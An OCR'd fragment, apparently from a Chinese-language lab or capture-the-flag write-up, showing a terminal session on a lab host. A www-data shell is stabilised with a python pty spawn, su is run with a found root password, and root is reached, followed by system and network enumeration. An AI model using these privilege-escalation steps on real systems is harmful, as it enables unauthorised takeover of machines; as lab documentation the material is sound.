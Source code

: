 -   ```shell
    ?>www-data@web:/var$ su  
    su
    su: must be run from a terminal
    www-data@web:/var$ python -c 'import pty;pty.spawn("/bin/bash");'
    python -c 'import pty;pty.spawn("/bin/bash");'
    www-data@web:/var$ su
    su
    Password: root@ISIntS
    
    ```

-   获得root权限

-   ```shell
    www-data@web:/var$ python -c 'import pty;pty.spawn("/bin/bash");'
    python -c 'import pty;pty.spawn("/bin/bash");'
    www-data@web:/var$ su
    su
    Password: root@ISIntS
    
    root@web:/var# whoami
    whoami
    root
    root@web:/var# stty raw -echo
    stty raw -echo
    root@web:/var# whoami
    root
    root@web:/var# ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue state UNKNOWN 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
        link/ether 00:0c:29:34:b6:a8 brd ff:ff:ff:ff:ff:ff
        inet 10.10.10.100/24 brd 10.10.10.255 scope global eth0
        inet6 fe80::20c:29ff:fe34:b6a8/64 scope link 
           valid_lft forever preferred_lft forever
    root@web:/var# cd /root 
    root@web:~# ls
    root@web:~# uname -a
    Linux web 2.6.38-8-server #42-Ubuntu SMP Mon Apr 11 03:49:04 UTC 2011 x86_64 x86_64 x86_64 GNU/Linux
    root@web:~# lsb_release -a
    No LSB modules are available.
    Distributor ID: Ubuntu
    Description:    Ubuntu 11.04
    Release:        11.04
    Codename:       natty
    root@web:~# sudo -l
    Matching Defaults entries for root on this host:
        env_reset
    
    User root may run the following commands on this host:
        (ALL : ALL) ALL
    root@web:~# 
    
    ```

